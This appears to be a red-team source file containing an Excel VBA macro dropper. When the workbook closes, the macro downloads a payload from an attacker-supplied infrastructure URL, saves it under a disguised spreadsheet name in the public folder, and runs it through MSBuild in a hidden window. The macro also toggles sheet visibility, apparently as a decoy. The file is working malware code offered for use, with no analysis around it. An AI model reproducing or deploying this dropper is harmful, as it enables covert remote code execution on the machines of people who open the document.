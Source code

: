 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
```vb
     Sub Auto_Open()
         'Do some things here to show/hide content
         Worksheets("Data").Visible = True
         Worksheets("Macro").Visible = False
     ErrorHandler:
         Exit Sub
     End Sub
     Sub Auto_Close()
         Debugging
         Worksheets("Macro").Visible = True
         Worksheets("Data").Visible = False
     End Sub
     Sub DownloadFile()
         Dim myURL As String
         'Change the next line
         myURL = "<INFRASTRUCTURE>"
         Dim WinHttpReq As Object
         Set WinHttpReq = CreateObject("Microsoft.XMLHTTP")
         WinHttpReq.Open "GET", myURL, False
         WinHttpReq.send
         myURL = WinHttpReq.responseBody
         If WinHttpReq.Status = 200 Then
             Set oStream = CreateObject("ADODB.Stream")
             oStream.Open
             oStream.Type = 1
             oStream.Write WinHttpReq.responseBody
             oStream.SaveToFile "C:\users\public\downloads\blogpage.xls", 2
             oStream.Close
         End If
     End Sub
     Public Function Debugging() As Variant
         DownloadFile
         'Will hide the MSBuild window
         Shell "C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\users\public\downloads\blogpage.xls", vbHide
     End Function
```